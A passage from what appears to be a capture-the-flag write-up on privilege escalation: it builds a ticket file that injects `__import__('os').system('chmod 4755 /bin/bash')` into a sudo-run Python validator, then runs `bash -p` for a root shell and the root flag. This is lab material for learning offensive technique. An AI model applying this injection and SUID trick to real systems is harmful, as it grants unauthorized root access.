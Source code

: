 We will try to execute the following command on it. This lets us change the permissions of the bash binary to `SUID` (Set User ID), thus making it possible to execute it in privileged mode (as `root`) while being a non-privileged user:

```bash
chmod 4755 /bin/bash
```

Knowing the needed structure and the payload we want to execute, we will construct the following file:

```python
# Skytrain Inc
## Ticket to hola
__Ticket Code:__
**11+100 and __import__("os").system("chmod 4755 /bin/bash")**
```
{: file="scripts/test.md"}

Once we have our payload prepared, we will execute the `ticketvalidator.py` as `root` and we will indicate our freshly created payload as the ticket to validate:

![Desktop View](sudo2.png){: w="700" h="400" }
_Exploiting sudo privileges_

After executing it, we can see that the `/bin/bash`{: .filepath} binary has `SUID` permission, so we can use the following command to execute it as the `root` user:

```bash
bash -p
```

![Desktop View](sudo3.png){: w="700" h="400" }
_root shell_

We can see that we are the `root` user so we proceed to visualize the `root.txt`flag in the `/root/`{: .filepath} directory.
